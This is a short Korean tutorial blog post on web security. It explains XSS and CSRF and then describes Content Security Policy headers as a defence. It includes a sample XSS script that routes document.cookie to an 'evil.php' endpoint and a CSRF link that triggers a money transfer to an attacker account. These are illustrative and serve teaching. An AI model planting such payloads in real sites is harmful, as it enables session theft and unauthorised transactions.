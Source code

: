```yaml
---
title: "웹 보안"
date: "2021-06-02"

---
```


## # 웹 보안

개방형 웹 앱에서는 보안을 확인하는 것이 중요하다. 유저의 개인정보가 유출될수도 있고, 인터넷 은행 같은 서비스에서는 자산적 피해로 이어질 수 있다. 그래서 이 포스트에선 **웹 공격**과 **웹 보안**에 대해 알아보고자 한다.

## 웹 공격

웹 공격에는 대표적으로 두 가지가 있다. 

- [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting): 세션 하이재킹을 통해 서버와 요청 응답을 주고 받는 공격

```html
<--! 다음과 같은 코드를 공격 웹 사이트에 심어놓음으로 인해 cookie를 evil.php로 전송하여 탈취 -->
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

- [CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF): 인증된 사용자를 통해 원하는 요청을 전송하는 공격

```html
<--! www.example.com/transfer이 송금이고 공격받는 사용자가 인증되었다고 가정했을 때 -->
<--! input 검사를 하지 않는 FAQ 같은 곳에 삽입할 수 있을 것이다. -->
<a href="www.example.com/transfer?account=attackerAccount&amount=$100">자세히 알아보기</a>
```



## 콘텐츠 보안 정책(CSP)

CSP는 XSS처럼 데이터를 삽입해 공격을 하는 막는 보안 계층이다.

일반적으로  [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) 헤더를 사용하고, <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';"> 이와 같이 meta 태그로 설정할 때도 있다.

가장 중요한 값은 default-src 인데, 이는 인라인 스크립트와 스타일이 실행되는 것을 방지한다. 아래 몇가지 예를 보면서 뜻을 알아보자.

예1) 모든 콘텐츠가 사이트 고유의 출처에서 제공되기를 원함.

```
Content-Security-Policy: default-src 'self'
```

예2) 이미지는 모든 곳에서 제공될 수 있지만, 스크립트는 지정된 서버에서만 허용.

```
Content-Security-Policy: default-src 'self'; img-src *; script-src userscripts.example.com
```

이처럼 리소스 출처에 제한을 두면서 공격에 대처하는 방법이다.

